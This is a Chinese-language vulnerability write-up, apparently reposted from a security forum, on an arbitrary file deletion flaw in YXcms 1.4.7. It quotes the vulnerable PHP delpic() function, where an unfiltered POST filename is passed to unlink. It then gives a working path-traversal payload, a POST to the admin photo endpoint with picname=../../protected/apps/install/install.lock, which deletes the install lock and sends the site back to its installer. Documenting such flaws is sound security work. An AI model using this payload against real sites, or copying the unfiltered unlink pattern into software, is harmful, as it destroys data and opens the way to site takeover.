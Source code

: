 # YXCMS 1.4.7任意文件删除

> 原文：[https://www.zhihuifly.com/t/topic/3298](https://www.zhihuifly.com/t/topic/3298)

# YXcms 1.4.7 任意文件删除

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

漏洞文件：protected/apps/admin/controller/photoController.php,在第355行的delpic()函数，可以看到$picname接收POST过来的值，然后$path等于文件开头定义的静态变量 static protected $uploadpath='';//图片上传路径 没有对传入的值进行任何的过滤，使用函数file_exists()判断一下文件是否存在就给unlink执行删除文件了。

```
public function delpic()
{
    if(empty($_POST['picname'])) $this->error('参数错误~');
    $picname=$_POST['picname'];
    $path=$this->uploadpath;
    if(file_exists($path.$picname))
      @unlink($path.$picname);
    else{echo '图片不存在~';return;} 
    if(file_exists($path.'thumb_'.$picname))
       @unlink($path.'thumb_'.$picname);
    else {echo '缩略图不存在~';return;}
    echo '原图以及缩略图删除成功~';
} 
```

### 复现

需要先登录后台，然后访问之后会显示缩略图不存在

payload

```
http://0-sec.org/index.php%3Fr%3Dadmin/photo/delpic 
```

POST：

```
picname=../../protected/apps/install/install.lock 
```

![image](img/9257e1af6fa849b1119cd9aa1ff17a67.png)

然后访问网站首页就会自动转到安装的页面

![image](img/aa5298005bebc7b3745ff1407d144c4b.png)

看到目录下的install.lock文件已经被删除了

![image](img/164da8c3a37baecdc59b91826daf9f1d.png)